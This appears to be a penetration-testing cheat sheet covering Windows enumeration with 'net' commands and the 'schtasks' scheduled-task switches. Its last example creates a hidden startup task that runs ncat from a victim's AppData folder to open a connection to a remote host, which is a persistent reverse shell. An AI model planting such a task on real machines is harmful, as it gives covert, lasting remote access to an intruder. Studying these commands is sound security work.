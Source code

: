 #### Net utility

| **Command** | **Description** |
|-------|--------|
| `net user` | Displays all the users present on the host, current and deleted |
| `net group` | Displays all the groups in the domain if the user is connected to a Domain controller |
| `net localgroup` | Displays all the groups present locally |
| `net share` | Displays shared resouces on the host |
| `net view` | Displays every shared resources including domain resources, shares, printers, etc |
| `net start <service>` | To start a service |
| `net start` | To view all active services |
| `net stop <service>` | To stop specified service |
| `net pause <service>` | To pause a service |
| `net continue <service>` | To resume a service |

---

## Scheduled Tasks

`schtasks` is the utilty to be used to interact with scheduled tasks

> To access the manual of this utility use command `schtasks /?`

### SCHTASKS

| **Switch** | **Description** |
|---------|------------|
| **Action: /query** | Performs search on remote and local host |
| `/fo` | Sets the format for the output: `csv`, `list`, `table` |
| `/v` | Sets verbosity |
| `/nh` | Removes column headers |
| `/s` | Sets DNS or IP address for the target. Format: `\\\\host` |
| `/u` | Sets user |
| `/p` | Sets password |
| **Action: /create** | Schedule a task |
| `/sc` | Set schedule type. `REQUIRED` |
| `/tn` | Set task name `REQUIRED` |
| `/tr` | Set trigger and task to run `REQUIRED` |
| `/s` | Specify host to run on |
| `/u` | Specify user |
| `/p` | Specify user specific password |
| `/mo` | Allow modifier for the schedule |
| `/rl` | Set privilege limit. `limited` or `highest` |
| `/z` | Set auto deletion |
| `schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"` |